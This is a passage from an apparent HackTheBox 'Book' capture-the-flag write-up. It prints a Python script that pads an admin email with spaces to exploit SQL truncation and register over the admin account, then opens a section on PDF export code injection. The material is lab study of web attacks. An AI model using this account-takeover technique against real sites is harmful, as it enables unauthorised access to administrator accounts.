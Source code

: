 ![admin area](./adminarea.png)

Alternatively, a simple python script does the job as well.

```
import requests

url = "http://10.10.10.176/index.php"
admin_email = 'admin@book.htb'
password = '123456789'
target_length = 20
padding = target_length - len(admin_email)
payload = admin_email + ' ' * padding + 'a'

post_data = {'name': 'goodyguy',
			'email': payload,
			'password': password }

x = requests.post(url, data = post_data)
```

## PDF Export Code Injection

Earlier, we spotted an upload function in the **Collections section of the user account**. Upload functions are always worth scrutinizing.
